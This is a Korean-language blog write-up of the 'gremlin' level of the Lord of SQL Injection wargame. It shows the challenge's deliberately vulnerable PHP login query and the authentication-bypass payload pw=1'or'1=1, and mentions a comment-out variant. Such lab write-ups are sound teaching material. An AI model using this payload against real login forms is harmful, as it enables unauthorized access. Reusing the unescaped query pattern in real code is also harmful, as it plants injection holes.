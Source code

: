 ```yaml
---
layout: post
title: ! "[LOS] gremlin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


![](/assets/posts/los/gremlin.png)

`query : select id from prob_gremlin where id='' and pw=''`

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
첫번째 문제 gremlin은 이런식으로 query문이 떠있고 url로 id와 pw를 집어넣으면 된다.
id에는 아무값이나 넣어도 되지만 pw는 참이 되어야 하므로
or문을 써야할 것 같다.
쿼리에서 id와 pw를 감싸는 ' 가 있기 때문에 그것까지 고려를 해서 값을 넘겨야 한다.

`?id=(아무값)&pw=1'or'1=1`

이런식으로 써줘야

`query : select id from prob_gremlin where id='userId' and pw='1'or'1=1'`

이렇게 쿼리문이 완성된다.
1 또는 1이 되므로 pw는 참이 된다.

또 다른 방법으로는 id 부분을 id='1'or'1=1' 이렇게 해주고 pw 부분을 주석처리 하는 것도 있다.
![](/assets/posts/los/gremlin_clear.png)

그렘린 클리어!
